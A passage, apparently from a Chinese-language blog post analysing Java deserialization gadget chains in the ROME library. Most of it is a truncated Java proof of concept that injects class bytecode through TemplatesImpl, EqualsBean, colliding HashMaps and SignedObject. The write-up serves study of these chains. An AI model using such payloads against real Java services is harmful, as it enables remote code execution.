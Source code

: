 ```java
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());  
        ObjectInputStream ois = new ObjectInputStream(bis);  
        ois.readObject();  
    }  
}
```

#### ObjectBean#equals ()

原理差不多的，只不过多了些条件，一个是在调用 equals 方法时会进行一个 hash 比较，还有就是在最后 beanEquals 方法中调用 getter 方法。这里就不细说了，具体分析参考：[ROME 反序列化](https://www.cnblogs.com/gaorenyusi/java反序列化/ROME 反序列化.md)

```java
package org.example;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.syndication.feed.impl.EqualsBean;  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.security.KeyPair;  
import java.security.KeyPairGenerator;  
import java.security.Signature;  
import java.security.SignedObject;  
import java.util.HashMap;  
import java.util.Hashtable;  
import java.lang.reflect.Field;  
  
public class rome3ser {  
    public static void main(String[] args)throws Exception {  
  
        TemplatesImpl tem =new TemplatesImpl();  
        byte[] code = Files.readAllBytes(Paths.get("D:/gaoren.class"));  
        setValue(tem, "_bytecodes", new byte[][]{code});  
        setValue(tem, "_tfactory", new TransformerFactoryImpl());  
        setValue(tem, "_name", "gaoren");  
        setValue(tem, "_class", null);  
  
        EqualsBean bean1 = new EqualsBean(String.class, "gaoren");  
        HashMap hashMap1 = new HashMap();  
        hashMap1.put("yy", bean1);  
        hashMap1.put("zZ", tem);  
  
        HashMap hashMap2 = new HashMap();  
        hashMap2.put("yy", tem);  
        hashMap2.put("zZ", bean1);  
  
        Hashtable table = new Hashtable();  
        table.put(hashMap1, "1");  
        table.put(hashMap2, "2");  
  
  
        setValue(bean1, "_beanClass", Templates.class);  
        setValue(bean1, "_obj",tem);  
  
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");  
        kpg.initialize(1024);  
        KeyPair kp = kpg.generateKeyPair();  
        SignedObject signedObject = new SignedObject(table, kp.getPrivate(), Signature.getInstance("DSA"));  
  
        EqualsBean bean2 = new EqualsBean(String.class, "yusi");  
  
```